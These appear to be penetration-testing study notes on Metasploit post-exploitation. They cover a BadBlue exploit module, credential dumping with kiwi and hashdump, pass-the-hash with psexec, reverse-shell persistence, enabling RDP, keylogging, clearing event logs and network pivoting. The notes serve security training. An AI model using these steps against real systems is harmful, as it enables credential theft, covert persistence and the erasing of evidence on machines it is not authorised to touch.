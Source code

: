 With http server, badblue version v2.7, we can use module `badblue_passthru` to exploit
- set target and exploit
  - 
- When we have `meterpreter`, run `load kiwi`
  - `lsa_dump_sam`
  - or `hashdump`

---

Pass the hash with Psexec:
- When we have the NTLM hash, we can use it to logon to the system with psexec
- `use windows/smb/psexec` -> Set payload to x64
- Set `SMBUser`, set `SMBPass` as LMHash:NTMLHash, dump from hashdump

---

Persitence consists of technique that adveraries use to keep access to the system across restart, changed the credentials and other interrupt that could cut off their access.
- We can use exploit module `persistence_service`
  - set payload reverse_tcp -> Run -> It will create a service and a meterpreter for current exploit
  - Setup lhost and lport for handler later
- Setup `multi/handler`, automatic connect for us.

---

Enable RDP:
- After exploit, we can use module `enable_rdp` to gain remote desktop access on the target
  - Tips: In shell, meterpreter, we can change password of user by `net user administrator <new_password>`
- Use `xfreerdp` to connect to the target
  - `xfreerdp /u:<username> /p:<password> /v:<target_ip>`

---

For keylogging, we can use metasploit module or other key logging app.
- In meterpreter sessions, we can use command `keyscan_start`, `keyscan_dump`, `keyscan_stop`

---

Clearing event logs: 
- In meterpreter, we can use `clearev` to clear event log

---

Pivoting: Pivot is post exploitation technique that involves utilizing a compromised host to attack other systems on the compomised host's private internal network
- In meterpreter, we can use `run autoroute -s <target_subnet>/20`
  - Tips: To rename sessions `sessions -n <name> -i <sessions_id>`
- Or we can use port forwarding, `portfwd add -l <local_port> -p <remote_port> -r <remote_ip>` -> Create local tcp port relay.
  - Now we can nmap in the local port.

# Linux post exploit

We can perform:
- Enum system config
- Enum env variable
- Enum network config
- Check VM
- Enum user history (bash command history)
